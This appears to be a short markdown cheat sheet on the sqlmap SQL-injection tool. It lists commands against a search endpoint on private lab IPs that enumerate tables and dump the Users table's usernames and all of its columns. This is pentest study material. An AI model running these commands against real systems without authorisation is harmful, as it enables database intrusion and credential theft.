

# sqlmap

## What is sqlmap

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## How to use

### Query URL with sqlmap

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3`
  

### List Databases

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 --tables`

### Show Table Structure of Users

`sqlmap -u http://10.0.166.224/rest/products/search?q=test --level 5 --risk 3 -T Users --columns`

### Output ‘password’ column in table ‘Users’ 

### Output ‘username’ column in table ‘Users’ 

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users -C username --dump`

### Output all  columns in table ‘Users’ 

`sqlmap --threads 5  -u http://10.0.127.230/rest/products/search?q=test --level 5 --risk 3 -T Users --dump`

